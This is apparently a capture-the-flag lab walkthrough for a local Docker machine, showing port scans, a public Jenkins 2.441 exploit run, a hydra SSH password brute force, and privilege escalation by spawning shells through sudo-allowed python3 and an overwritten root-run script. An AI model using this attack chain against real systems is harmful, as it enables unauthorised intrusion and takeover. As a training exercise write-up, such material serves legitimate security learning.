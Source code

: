 ![image](https://github.com/user-attachments/assets/0cb3d581-c87a-416d-b473-93d195490f87)


```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/b92223b9-e47a-47c2-a3cb-d60f3daa2a97)

## **We have a web page running on port 8080**

![image](https://github.com/user-attachments/assets/b723c382-958a-48ed-8433-c8e350fc7320)

## **Researching the web**
```bash
whatweb http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/01227e0c-8480-4b17-8c5c-6cab5025b306)

## **We search for possible vulnerabilities and exploits**
```bash
searchsploit jenkins 2.441
```
![image](https://github.com/user-attachments/assets/9b1413f6-8369-4d9d-b86e-4f956da458fa)

## **We bring to our working folder for further exploitation**
```bash
❯ locate java/webapps/51993.py
/usr/share/exploitdb/exploits/java/webapps/51993.py
❯ mv /usr/share/exploitdb/exploits/java/webapps/51993.py .
❯ ls
 51993.py
```
## **we run exploit**
``` bash
python3 51993.py -u http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/fa4e8b44-0c3c-4a55-822c-ab9c1a462b2e)

## **We will apply a brute force attack with hydra on port 22 with the user that we find**
```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/3499650a-5ae9-43ca-ad4c-c89cb8ae7931)

## **Now we will log in via ssh**
```bash
ssh bobby@172.17.0.2
```
![image](https://github.com/user-attachments/assets/2293eb00-7d0e-4e22-8dfd-a3b1485fe7fe)

## **Once inside it's time to escalate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/682b3ea1-0c6c-42f1-99d1-1e630f08d146)
![image](https://github.com/user-attachments/assets/33ce0d41-31af-49dd-8980-8d552bd1441b)

## **Treatment of tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **As we saw in the previous step only the user pinguinito can use the python3 command at root level so let's try to change user**
```bash
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/3e3053ac-29f7-4565-aa28-e79532b1811b)
## **Treatment of tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **Once inside it's time to escalate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/0acfea2b-b7ff-45f0-8c93-9a9fec46d86d)

## **we are going to view the file in question**
```bash
cd /opt
ls -la
```
![image](https://github.com/user-attachments/assets/9c44abcb-7c88-4ebf-9d0f-0f51b92310df)

## **We do not have write permissions**
```bash
chmod +w /opt/script.py
```
![image](https://github.com/user-attachments/assets/ac3b9578-615f-46c4-95b0-14e2fb68e03c)

## **Now we can edit the script. we are going to write in the file a code that will allow us to get a shell as root: we will use echo to edit the file since we don't have any text editor. First we run:**
```bash
echo 'import os' > script.py
```
## **And then:**
```bash
echo 'os.system("/bin/sh")' >> script.py
```
## **Then we do a cat to the file to see if the changes were made correctly**
```bash
cat script.py
```
![image](https://github.com/user-attachments/assets/cfaebea9-592f-422e-8c53-d01be22311d3)

## **Let's run the script with the following command to see if it worked correctly:**
```bash
sudo /usr/bin/python3 /opt/script.py
```
![image](https://github.com/user-attachments/assets/7e8e5e6b-9afe-4bfa-b14b-776fdfe2fdae)







